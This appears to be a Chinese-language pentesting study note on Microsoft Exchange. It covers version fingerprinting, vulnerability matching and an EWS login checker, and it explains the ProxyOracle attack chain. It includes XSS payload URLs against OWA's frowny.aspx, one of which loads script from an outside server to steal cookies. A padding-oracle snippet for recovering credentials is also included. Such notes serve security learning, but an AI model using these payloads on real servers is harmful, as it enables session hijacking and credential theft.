

# Exchange学习

整理和自己写了一些exchange的脚本

## CheckInfo

### 版本识别

1. 通过 `owa` 接口，获取短版本信息

2. 通过 `/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application` 接口获取完整版本信息

3. 通过 `/owa/service`, `/owa` 接口响应头 X-OWA-Version获取完整版本

4. 爆破 `/ecp/{version}/exporttool/` 最后一位，获取完整版本

### 漏洞检测
参考[这篇文章](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Exchange%E7%89%88%E6%9C%AC%E6%8E%A2%E6%B5%8B%E5%92%8C%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B)，根据https://learn.microsoft.com/en-us/Exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019匹配版本和日期识别漏洞
## NtmlLoginEWS

checkLogin 支持明文密码和ntlm登录，参考[这篇文章](https://github.com/3gstudent/Homework-of-Python/blob/master/checkEWS.py)修改的脚本，更简洁明了


## 漏洞利用

### ProxyOracle

1. xss打cookie  https://192.168.52.149/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};alert(document.cookie)//

https://192.168.52.149/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.head.appendChild(document.createElement(/script/.source)).src=/https:\/\/OurXssServer.com\/index.js/.source//  利用dnslog平台打cookie


参考 https://www.4hou.com/posts/lEOM 

2. PaddingOracle 解密明文

大致原理，按位推算明文，没太看明白

参考 

https://hosch3n.github.io/2021/08/10/PaddingOracle%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86/

https://paper.seebug.org/1123/

https://github.com/hosch3n/ProxyVulns

```python
# 必然存在一个guess_iv[-1]值符合
guess_iv[-1] ^ middle[-1] = 0x01
# 根据异或可逆性反推出真实中间值middle[-1]
middle[-1] = guess_iv[-1] ^ 0x01
# 得到真实中间值middle[-1]后，与原本的iv[-1]算出真实的明文plain[-1]
plain[-1] = iv[-1] ^ middle[-1]
```

cadata字段是用AES-CBC加密的"Basic " + ToBase64String(UserName + ":" + Password)

由于IV是RSA加密，但前12个字节固定，所以后4个字节无法得到，就无法得到账号前2位




### ProxyShell


